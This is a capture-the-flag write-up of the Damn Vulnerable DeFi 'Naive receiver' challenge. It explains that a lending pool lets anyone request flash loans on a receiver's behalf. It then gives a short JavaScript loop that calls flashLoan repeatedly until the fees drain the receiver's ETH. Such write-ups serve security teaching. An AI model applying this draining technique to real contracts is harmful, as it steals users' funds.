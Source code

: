 # Challenge #2 - Naive receiver

Challenge #2 - Naive receiver

There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.

You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.

Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)

    [See the contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.2.0/contracts/naive-receiver)
    [Complete the challenge](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/test/naive-receiver/naive-receiver.challenge.js)

# Solution

The flashloans fees are very expensive, and the pool has no protector against 3rd party attackers calling the flashloan function.

The solution is to call the flashloan function on behalf of the user.

```js
while ((await ethers.provider.getBalance(this.receiver.address)).toString() > 0) {
    await this.pool.flashLoan(this.receiver.address, ETHER_IN_RECEIVER)
}
```
